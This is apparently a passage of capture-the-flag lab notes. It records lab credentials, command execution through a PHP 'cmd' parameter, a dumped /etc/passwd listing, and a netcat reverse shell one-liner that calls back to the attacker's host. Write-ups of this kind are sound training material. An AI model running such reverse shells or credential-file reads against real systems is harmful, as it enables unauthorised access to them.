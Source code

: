 Username: jackinthebox
Password: TplFxiSHjY

http://10.10.162.47:22/nnxhweOV/index.php?

Message: GET me a 'cmd' and I'll run it for you Future-Jack.

![[Pasted image 20240712082321.png]]

We get command execution.

/ect/passwd

```php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:104:109::/run/uuidd:/bin/false
Debian-exim:x:105:110::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash
```

We could try to brute force the SSH or use some of the passwords on it, but lets look around with cmd further.

![[Pasted image 20240712082929.png]]

Rev Shell:
```php
nc -c sh <MyIP> 4444
```
